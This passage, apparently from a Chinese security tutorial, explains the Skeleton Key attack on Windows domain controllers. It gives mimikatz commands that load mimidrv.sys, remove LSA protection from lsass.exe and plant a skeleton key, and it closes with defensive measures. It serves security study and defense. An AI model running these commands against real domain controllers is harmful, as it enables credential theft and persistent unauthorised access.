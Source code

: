 ```bash
windows  8.1
windows server 2012 R2
```

#### [绕过 LSA](#toc_lsa)

该功能需要 mimidrv.sys 文件

mimikatz 命令

```bash
#！bash
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
```

导入驱动文件 mimidrv.sys 后 即可绕过 LSA protection

[![image-20220530202305112.png](assets/1698894253-074af7b7fb705936aa3a6e22448ddab5.png)](https://storage.tttang.com/media/attachment/2022/06/17/1ed48053-837e-4b17-912d-92109bdf70aa.png)

**Skeleton Key 防御措施**

-   域管理员用户要设置强密码，确保恶意代码不会在域控制器中执行。
-   在所有域用户中启用双因子认证，例如智能卡认证。
-   启动应用程序白名单（例如 AppLocker），以限制 mimikatz 在域控制器中的运行。
